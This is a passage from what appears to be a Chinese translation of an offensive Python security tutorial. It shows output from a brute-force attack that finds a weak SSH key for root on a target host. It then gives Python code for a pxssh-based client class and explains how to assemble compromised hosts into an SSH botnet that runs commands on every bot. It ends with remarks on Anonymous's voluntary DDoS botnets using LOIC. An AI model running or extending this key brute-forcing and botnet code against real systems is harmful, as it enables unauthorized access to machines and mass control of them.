 测试目标主机，我们能看到我们获得了漏洞系统的访问权限。如果 1024 位的密钥没用，尝试下载 2048 位的密钥，用同样的方式使用。

```
attacker# python bruteKey.py -H 10.10.13.37 -u root -d dsa/1024
[-] Testing keyfile tmp/002cc1e7910d61712c1aa07d4a609e7d-16764
[-] Testing keyfile tmp/00360c749f33ebbf5a05defe803d816a-31361
<..SNIPPED..>
[-] Testing keyfile tmp/002dcb29411aac8087bcfde2b6d2d176-27637
[-] Testing keyfile tmp/003e792d192912b4504c61ae7f3feb6f-30448
[-] Testing keyfile tmp/003add04ad7a6de6cb1ac3608a7cc587-29168
[+] Success. tmp/002dcb29411aac8087bcfde2b6d2d176-27637
[-] Testing keyfile tmp/003796063673f0b7feac213b265753ea-13516
[*] Exiting: Key Found. 
```

## 构建 SSH 的僵尸网络

现在我们已经可以通过 SSH 控制一个主机，让我们扩大它同时控制多台主机。攻击者经常利用一系列的被攻击的主机来进行恶意的行动。我们称这是僵尸网络，因为这些脆弱的电脑的行为像僵尸一样执行命令。为了构建我们的僵尸网络，我们将引入一个新的概念---`class`。`class` 的概念作为面向对象编程的基础命名。在这个系统中，我们实例化与方法相关联的对象。为了我们的僵尸网络，每个僵尸或者客户机都要求有连接和发送命令的能力。

```
# coding=UTF-8
import optparse
import pxssh
class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()
    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print('[-] Error Connecting')
    def send_command(self, cmd):
        self.session.sendline(cmd)
        self.session.prompt()
        return self.session.before 
```

检查代码生成的类对象`Clinet()`。为了建立客户机，我们需要主机名，用户名，密码或者密钥。此外，类包含的方法要能支持一个客户端---`connect()`,`sned_command()`, `alive()`。注意，当我们引入一个变量时，它属于类，我们通过`self` 来引用这个变量。为了构建僵尸网络，我们建立了一个全局的数组名字为`botnet`,这个数组包含了所有的连接对象。接下来，我们建立一个方法，名字为`addClient()`接受主机名，用户名和密码为参数，实例化一个连接对象然后将它添加到`botnet` 数组中。下一步，`botnetCommand()`方法接受命令参数，这个方法遍历数组的每一个连接，给每一个连接的客户机发送命令。

## 自愿的僵尸网络

黑客组织 Anonymous，通常采用自愿的僵尸网络来攻击他们的敌人。为了攻击的最大限度，这个还可组织要求他们的成员下载一个名为 LOIC 的工具。作为一个集体，这个黑客组织的成员发动一个分布式的僵尸网络攻击来攻击他们的目标。虽然是非法的，Anonymous 组织的的行为已经取得了一些引人注意的和到得上的胜利成果。在最近的一个操作中，通过操作黑暗网络，Anonymous 利用自愿的僵尸网络淹没了致力于传播儿童情色资源的网络主机。
